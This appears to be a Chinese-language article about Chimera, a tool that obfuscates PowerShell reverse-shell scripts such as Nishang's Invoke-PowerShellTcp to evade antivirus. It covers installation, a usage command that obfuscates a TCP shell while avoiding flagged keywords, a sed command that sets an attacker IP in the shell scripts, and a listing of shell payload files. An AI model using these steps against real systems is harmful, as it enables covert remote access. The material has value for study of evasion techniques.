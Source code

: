```

$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```

工具的安装和使用
--------

首先，广大用户需要使用下列命令将该项目源码克隆至本地，并完成基础配置：

```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git

sudo git clone https://github.com/tokyoneon/chimera /opt/chimera

sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/

sudo chmod +x chimera.sh; ./chimera.sh --help
```

### 基础使用

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\

copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\

invoke-expression,out-string,write-error -j -g -k -r -p
```

Shells
------

在该项目的 shells 目录下，包含了一些 Nishang 脚本和一些通用脚本，所有的脚本都已经过测试并能够正常工作。

**使用下列命令即可修改硬编码的 IP 地址：**

```
sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

```
ls -laR shells/

 

shells/:

total 60

-rwxrwx--- 1 tokyoneon tokyoneon 1727 Aug 29 22:02 generic1.ps1

-rwxrwx--- 1 tokyoneon tokyoneon 1433 Aug 29 22:02 generic2.ps1

-rwxrwx--- 1 tokyoneon tokyoneon  734 Aug 29 22:02 generic3.ps1

-rwxrwx--- 1 tokyoneon tokyoneon 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1

-rwxrwx--- 1 tokyoneon tokyoneon  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1

-rwxrwx--- 1 tokyoneon tokyoneon 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1

-rwxrwx--- 1 tokyoneon tokyoneon  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1

-rwxrwx--- 1 tokyoneon tokyoneon 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1

drwxrwx--- 1 tokyoneon tokyoneon 4096 Aug 28 23:27 misc

```